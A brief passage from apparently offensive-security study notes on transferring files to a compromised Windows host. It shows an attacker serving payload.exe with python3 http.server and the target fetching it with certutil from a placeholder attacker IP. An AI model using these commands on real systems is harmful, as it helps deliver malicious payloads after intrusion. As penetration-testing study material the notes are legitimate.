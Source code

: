 ![](assets/image-20230428215801961.png)

### Transferring Files

#### Windows

- Set up a web server to host the `payload.exe` file 

```bash
# Attacker machine
cd /root/Desktop/ # payload.exe must be here
python3 -m http.server 80
```

- After gaining access to the Windows target system and spawned a command shell session, download the payload file on the target system using the `certutil` tool in `cmd`.

```bash
# Windows Target machine
cd C:\Temp
certutil -urlcache -f http://<ATTACKER-IP>/payload.exe payload.exe
```
